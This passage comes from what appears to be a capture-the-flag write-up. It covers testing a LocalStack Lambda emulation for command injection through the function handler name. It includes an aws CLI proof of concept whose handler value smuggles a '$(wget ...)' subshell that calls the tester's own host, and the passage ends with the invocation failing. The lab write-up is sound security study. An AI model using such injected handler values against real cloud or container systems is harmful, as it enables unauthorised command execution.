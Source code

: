 

`docker create`, `docker cp`, and `docker start`. Looking across all of
that, the only place I really have input is in the first, which once I
remove all the `-e` parameters that set environment vars in the
container, looks like:



    docker create -i --rm "lambci/lambda:nodejs12.x" "index.handler"



What's interesting here is that I control the input for the image name
and the function that's called.

#### POC

To test for command injection in the `--handler` option, I'll create a
Lambda with a subshell in it to `wget` the path `/test` on my host:



    oxdf@hacky$ aws lambda create-function --function-name 'ex' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler 'index.handler$(wget 10.10.14.6/test)' --runtime nodejs12.x
    {
        "FunctionName": "ex",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler$(wget 10.10.14.6/test)",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T20:49:18.858+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "1fbfe1e9-d714-4a7c-b0d0-d303dc15650e",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }



When I invoke this, it fails:



    oxdf@hacky$ aws lambda invoke --function-name ex --endpoint-url http://s3-testing.stacked.htb out.json
    {
        "StatusCode": 200,
        "FunctionError": "Unhandled",
        "LogResult": "",
        "ExecutedVersion": "$LATEST"
    }
